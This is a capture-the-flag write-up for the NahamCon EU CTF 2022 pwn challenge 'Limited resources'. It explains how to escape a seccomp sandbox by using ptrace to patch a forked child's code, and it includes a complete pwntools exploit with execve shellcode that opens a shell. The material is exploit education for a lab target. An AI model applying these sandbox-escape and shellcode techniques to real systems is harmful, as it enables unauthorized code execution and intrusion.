




## Limited resources

was a pwn challenge from NahamCon EU CTF 2022.<br>

a relatively hard challenge, it only had 5 solves at the end of the ctf.<br>

the program has no PIE and only partial RELRO as you can see:<br>



when we launch it the program, after a small setup, immediatly fork,

the child process is an endless loop that does almost nothing as you can see in the reversed C code:

```c
{
    buffer = (char *)malloc(0x100uLL);
    while ( 1 )
    {
      strcpy(test_buffer, "Hello world!\n");
      if ( !strncmp(test_buffer, "Give me the flag!", 0x11uLL) )
        printf("I will not give you the flag!");
      cmp = strncmp(test_buffer, "exit", 4uLL);
      if ( !cmp )
        break;
      sleep(0x3E8u);
    }
  }
```

the child copy a string to a buffer on stack, then check if this buffer contains another string, in this case display a message, or exit..then sleep 1000 seconds, and loop indefinitely...<br>

pretty useless code as you can see..<br>

the parent process is more interesting, it displays this menu:<br>

```
Enter the command you want to do:
1) Create Memory
2) Get Debug Informationn
3) Execute Code
4) Exit
```

the option 1,  allocate a memory of the wanted size with mmap, then you can choose its permissions, and copy the data you want in it..(it will be a shellcode off course...)<br>

the option 2,  return the pid of the child.<br>

the option 3, will permit you to execute any function at any address, and before jumping to this code will setup a seccomp that looks like this: <br>



it will allows these listed syscalls, and forbid any others..<br>

so no `open`, `read`, `write`, no `execve`...<br>

pretty limited..but not so much...<br>

### the exploitation

well the way I exploit it (and it seems it is the intended way), is to trace the child with the parent with ptrace syscall (that is allowed)<br>

we attach to the child, than we use ptrace POKEDATA function to modify it's code, and patch the program memory of child.<br>

as the program as no PIE, we know were are the child instruction in memory.<br>

if you look at child code disassembly, you can see that the end of his loop, the `sleep()` calls, is followed by a `jmp` instruction that will go to the start of the loop.<br>



so we can patch this `jmp` instruction with `nop` instructions to remove it.<br>

and when child will awake from `sleep()` call, it will goes in parent menu loop, instead of restarting his meaningless loop...

we will patch also the call to `ProtectProgram()` that setup the seccomp in the child code..<br>

like this, when the child will awake from sleep(), we will make it execute a simple `execve` shellcode, and we will get an unrestricted shell<br>

I added a patched binary `limited_resources_patched` in my github for the local tests, to have a small sleep() of only 10 seconds..<br>



### exploit

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

# shortcuts
def logbase(): log.info("libc base = %#x" % libc.address)
def logleak(name, val):  log.info(name+" = %#x" % val)
def sa(delim,data): return p.sendafter(delim,data)
def sla(delim,line): return p.sendlineafter(delim,line)
def sl(line): return p.sendline(line)
def rcu(d1, d2=0):
  p.recvuntil(d1, drop=True)
  # return data between d1 and d2
  if (d2):
    return p.recvuntil(d2,drop=True)

# patched binary version with shorter sleep
exe = ELF('./limited_resources_patched')

host, port = "challenge.nahamcon.com", "32422"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process(exe.path)

sla('Exit\n','2')
pid = int(rcu('PID = ','\n'),10)
logleak('pid',pid)

shellc = asm('''
looping:

  mov ebp,%d		/* ebp = pid of child */
// ptrace(PTRACE_ATTACH,child,0,0)
  mov edi,0x10
  mov esi,ebp
  xor edx,edx
  xor r10,r10
  mov eax,101
  syscall

// wait a bit
  mov rcx,0xffffffff
wait:
  nop
  nop
  loop wait

/* patch program to remove jmp after call to sleep() */
/* ptrace(PTRACE_POKEDATA,chid, addr, data */
  mov edi,5
  mov esi,ebp
  mov edx,0x4018df
  mov r10,0xE800402090bf9090
  mov eax,101
  syscall

/* patch program to remove call to protectprogram() */
/* ptrace(PTRACE_POKEDATA,chid, addr, data */
  mov edi,5
  mov esi,ebp
  mov edx,0x401aa9
  mov r10,0x9090909090000000
  mov eax,101
  syscall

// ptrace(PTRACE_DETACH,child,0,0
  mov edi,0x11
  mov esi,ebp
  xor edx,edx
  xor r10,r10
  mov eax,101
  syscall


loopit:
 jmp loopit

format:
  .ascii "result = %%llx"
  .byte 10

''' % pid)

# create a RWX mem zone
sla('Exit\n','1')
sla('be?\n', '140000')
sla('y?\n', '7')
sla('de?\n', shellc)
# leak buffer address
buffer = int(rcu('at ', '\n'),16)
logleak('buffer at', buffer)

sla('Exit\n','3')
sla('code?\n', hex(buffer))

shellc2 = asm('''
	xor esi, esi
	push rsi
	mov rbx, 0x68732f2f6e69622f
	push rbx
	push rsp
	pop rdi
	imul esi
	mov al, 0x3b
	syscall
  ''')

# now the client is in menu loop
# but without call to seccomp before execute
sla('Exit\n','1')
sla('be?\n', '4096')
sla('y?\n', '7')
sla('de?\n', shellc2)

# send execve shellcode to client
shellc2_addr = int(rcu('at ', '\n'),16)
logleak('shellcode at', shellc2_addr)

sla('Exit\n','3')
sla('code?\n', hex(shellc2_addr))

# got flag
p.sendline('id;cat flag*')

p.interactive()
```

*nobodyisnobody still on the pwning side of life..*
